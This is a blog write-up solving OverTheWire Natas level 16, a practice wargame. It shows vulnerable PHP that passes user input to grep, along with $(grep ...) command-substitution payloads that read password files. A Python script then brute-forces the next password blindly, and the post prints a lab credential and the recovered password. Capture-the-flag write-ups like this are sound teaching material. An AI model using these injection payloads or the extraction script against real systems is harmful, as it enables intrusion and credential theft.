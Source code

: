 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 16"
date:   2015-09-25
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 16 > Level 17

![natas16-01](/assets/images/otw-natas/natas16-01.png)

```
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This challenge appears identical to [Natas 10]({% post_url 2015-09-19-otw-natas-10 %}) with the exception of quotes around `key` in the `grep` statment, and the banning of the double-quote character from the input.  After a little thought, the most obvious capability missed by the filter is the ability to perform command substitution using `$(cmd)`.

I'll cover this in the order of what I found and what I tried. A journey, not unlike Lord of the Rings but also nothing like Lord of the Rings.

The first thing I noticed is that we can view the entire contents of the dictionary if we use a command which returns nothing to stdout. A command not in PATH is a good example of this, as the error message is displayed to the user via stderr. This isn't of much consequence now but it will be important later.

![natas16-02](/assets/images/otw-natas/natas16-02.png)

The dictionary is of a decent size. If we search for the whatever the first unknown character of the password is, there is very likely only one letter which appears in every result. It would not be hard to find and we could repeat this step for each character in the password.

A proof of concept using the first character for natas16, which we know.  Search for `$(head -c 1 /etc/natas_webpass/natas16)`.

![natas16-03](/assets/images/otw-natas/natas16-03.png)

The fact the letter 'W' alone is a result helps considerably. Unforunately the `grep` hardcoded into the page is a case insensitive search. Worse yet, numbers do not appear in the dictionary.

![natas16-04](/assets/images/otw-natas/natas16-04.png)

That idea is dead.

We need a way to get a yes/no answer to the question of whether a candidate character appears in a given position of the password. Recall the first thing we noticed, that we can make commands with no output.  The idea:

Prepend a `grep` to a prefix-free known word that appears in the dictionary, `$(<grep>)<word>`.  If our `grep` does not match, it will return nothing, the search will be only for `<word>`, and we'll see a result.  If it does match, the password will be returned by the `grep` command, and the search will be for `<password><word>` which will fail and nothing will be returned.  By prefix-free I mean don't use 'hat' because 'what' is also in the dictionary which will break our logic.

POC this using the dictionary word 'penetration' and the password for natas16 which begins with 'W.'

Search for 'W' which matches our `grep` and should return no result from their `grep`: 

```
$(grep ^W /etc/natas_webpass/natas16)penetration
```

![natas16-05](/assets/images/otw-natas/natas16-05.png)

Search for 'h', which does not match our `grep` resulting in a match with their `grep`: 

```
$(grep ^h /etc/natas_webpass/natas16)penetration
```

![natas16-06](/assets/images/otw-natas/natas16-06.png)

That's it! Modify the code from [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) to suit the new payload.

```
import socket

HOST = "natas16.natas.labs.overthewire.org"
PORT = 80
HEAD = """GET /?needle=$(grep%20^{c}%20/etc/natas_webpass/natas17)penetration&submit=Search HTTP/1.1
Host: natas16.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==
Content-Type: application/x-www-form-urlencoded\r\n\r\n"""
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas16(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    s.send(HEAD.format(c=p))

    r = s.recv(8192)
    s.close()

    if "penetration" not in r:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas16(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

Success!  This time an action shot. It's not very pretty, but when the output from each iteration is small and the process relatively slow, seeing each tick go by is helpful for gauging speed and correct operation.

![natas16-07](/assets/images/otw-natas/natas16-07.png)

Eventually, 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
